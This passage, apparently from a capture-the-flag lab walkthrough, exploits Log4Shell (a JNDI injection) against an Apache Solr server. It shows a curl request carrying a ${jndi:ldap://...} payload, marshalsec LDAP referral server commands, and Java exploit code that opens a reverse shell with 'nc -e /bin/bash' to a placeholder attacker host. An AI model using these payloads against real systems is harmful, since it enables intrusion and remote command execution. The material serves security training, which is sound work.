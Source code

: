 - We prepare a netcat listener on port 9999: `nc -lnvp 9999`.

### Step 4.4 - Send the Exploit Payload

- Now that we have a listener staged, we can make a request including this primitive JNDI payload syntax as part of the HTTP parameters:

```bash
curl 'http://TARGET_MACHINE_IP:8983/solr/admin/cores?foo=${jndi:ldap://ATTACKING_MACHINE_IP:9999}'
```

![](images/lab1/6.png)

![](images/lab1/7.png)

## Task 5

### Step 5.1 - Clone and Build Exploitation Tools

- In order to try and exploit this vulnerability, we should have Java 8 and Maven installed on our machine.
- Clone the repository: "[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)" that contains an LDAP Referral Server.
- Inside the repository, build the program with the command: `mvn clean package -DskipTests`.

### Step 5.2 - Start LDAP Referral Server

- Run the following command to start a referral server:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKING_MACHINE_IP:8000/#Exploit"
```

- It prints out "Listening on 0.0.0.0:1389"

### Step 5.3 - Prepare Java Exploit

- Create the `Exploit.java` file:

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACKING_MACHINE_IP 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
